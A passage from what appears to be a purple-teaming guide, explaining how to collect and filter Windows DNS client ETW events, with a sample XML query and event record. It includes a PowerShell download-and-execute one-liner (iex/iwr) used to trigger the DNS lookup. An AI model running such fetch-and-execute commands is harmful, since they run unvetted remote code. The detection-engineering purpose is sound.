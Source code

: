 ```sh
Provider:
Name:                 Microsoft-Windows-DNS-Client
Provider Guid:        {1C95126E-7EEA-49A9-A3FE-A378B03DDB4D}
Level:                4 (win:Informational)
KeywordsAll:          0x0
KeywordsAny:          0xffffffffffffffff 
--snip--
Properties:           64
Filter Type:          0
```

A command to fetch an execute the contents of a remote file via PowerShell, resulting in the initial domain name resolution which will produce a DNS Client Event entry.

```powershell
iex(iwr https://aguidetopurpleteaming.com/resources/7/etw.txt)
```

##### Filtering for Events of Interest

As performed in [Chapter 4](/part-II/collecting-telemetry/), we can query the DNS logs produced by Event Tracing using Event Viewer or `wevtutil`. An example query for DNS lookups of this site can be performed as follows.

```xml
<QueryList>
  <Query Id="0" Path="Microsoft-Windows-DNS-Client/Operational">
    <Select Path="Microsoft-Windows-DNS-Client/Operational">     
      *[EventData[Data[@Name='QueryName']='aguidetopurpleteaming.com']]
    </Select>
  </Query>
</QueryList>
```

An example of an event log result is shown here.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-DNS-Client" Guid="{1c95126e-7eea-49a9-a3fe-a378b03ddb4d}" /> 
    <EventID>3006</EventID> 
    <Level>4</Level> 
    --snip--
    <EventRecordID>1054</EventRecordID> 
    <Correlation ActivityID="{a9fa96ac-7f96-0001-2ed6-faa9967fda01}" /> 
    <Execution ProcessID="5584" ThreadID="3904" /> 
    <Channel>Microsoft-Windows-DNS-Client/Operational</Channel> 
    <Computer>ar-win-dc</Computer> 
    <Security UserID="S-1-5-21-1097896708-1628162418-3612758767-500" /> 
  </System>
  <EventData>
    <Data Name="QueryName">aguidetopurpleteaming.com</Data> 
    <Data Name="QueryType">1</Data> 
    <Data Name="QueryOptions">1073766400</Data> 
    <Data Name="ServerList" /> 
    <Data Name="IsNetworkQuery">0</Data> 
    <Data Name="NetworkQueryIndex">0</Data> 
    <Data Name="InterfaceIndex">0</Data> 
    <Data Name="IsAsyncQuery">0</Data> 
  </EventData>
</Event>
```
